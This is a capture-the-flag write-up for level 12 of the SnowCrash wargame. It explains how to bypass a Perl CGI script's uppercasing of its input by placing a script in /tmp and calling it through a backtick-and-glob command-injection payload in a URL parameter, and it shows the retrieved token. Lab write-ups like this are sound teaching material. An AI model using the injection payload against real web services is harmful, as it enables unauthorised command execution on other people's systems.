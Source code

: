### Exploit

Yet another Perl script with unprotected parameters. Do they ever learn? Yet this time around, we can't simply call getflag through parameter __x__, as the str argument "getflag" is to be transformed in to "GETFLAG" because of this line:
> $xx =~ tr/a-z/A-Z/;

In order to avoid this issue, simply write a script which will call getflag and write the result in another file.

```
    level12@SnowCrash:~$ cat /tmp/TOKEN
    #!/bin/sh
    getflag > /tmp/key
    level12@SnowCrash:~$ chmod +x /tmp/TOKEN
    level12@SnowCrash:~$ ls -l /tmp/TOKEN
    -rwxrwxr-x 1 level12 level12 29 Jan 19 13:11 /tmp/TOKEN
```
> http://[IP_ADDRESS]:4646/?x="`/*/TOKEN`"

```
    level12@SnowCrash:~$ cat /tmp/key
    Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

This works thanks to globbing. The proof is in the pudding...
